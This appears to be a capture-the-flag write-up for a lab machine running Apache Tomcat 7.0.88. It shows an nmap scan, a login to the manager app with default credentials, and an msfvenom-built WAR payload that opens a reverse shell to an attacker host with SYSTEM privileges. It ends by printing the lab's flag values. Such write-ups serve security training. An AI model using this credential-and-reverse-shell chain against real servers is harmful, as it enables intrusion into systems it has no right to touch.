

# Enumeration

Starting with nmap:

```shell
nmap -Pn -sC -sV 10.129.47.251 -o nmap.txt                                                                                              main 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 11:16 CEST
Nmap scan report for 10.129.47.251
Host is up (0.030s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.37 seconds
```

Check on browser tomcat and ask for login when try to serverstatus, manager app, host manager...


Trying with defualt credentials we can login (admin/admin):


More information about OS: Windows server 2012 R2 (6.3) and tomcat/7.0.88

We can't access to list Applications:



Try to login with tomcat/s3cret default password and manage app:


# FootHold

Lets try to upload war reverseshell following [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war) information:

```shell
 Jerry  FootHold msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.28 LPORT=4242 -f war > reverse.war
Payload size: 1085 bytes
Final size of war file: 1085 bytes

Jerry  FootHold  strings reverse.war | grep jsp # in order to get the name of the file      main 
mtvzkgzp.jsp}TQo
mtvzkgzp.jspPK
```

Upload file and, open local nc -nlvp 4242 sesion, and go to http://10.129.47.251:8080/reverse/. Check  nc session:
```shell
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>

C:\Users\Administrator\Desktop\flags>type 2*
type 2*
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>

```

Volià!
